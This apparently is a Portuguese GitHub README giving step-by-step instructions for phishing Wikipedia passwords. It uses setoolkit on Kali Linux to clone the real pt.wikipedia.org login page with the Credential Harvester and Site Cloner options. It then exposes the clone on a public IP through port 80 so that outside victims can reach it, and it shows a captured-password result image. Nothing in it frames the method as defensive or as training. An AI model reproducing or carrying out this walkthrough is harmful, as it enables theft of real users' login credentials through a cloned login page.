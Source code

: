 # Phishing para captura de senhas da Wikipédia

## Ferramentas

- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Obtendo o endereço da máquina: ``` ifconfig ```
- Obtendo o endereço público: ``` curl ifconfig.co ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- URL para clone: https://pt.wikipedia.org/w/index.php?returnto=Wikip%C3%A9dia%3AP%C3%A1gina+principal&title=Especial:Entrar&centralAuthAutologinTried=1&centralAuthError=Not+centrally+logged+in

### Observações com o endereço público

- Abra a porta 80 no seu roteador.
- Abra em outra rede (rede móveis por exemplo) com o endereço público:80. Exemplo: 111.111.111:80

### Resutados

![Resultado](./passwd.png "IMG")
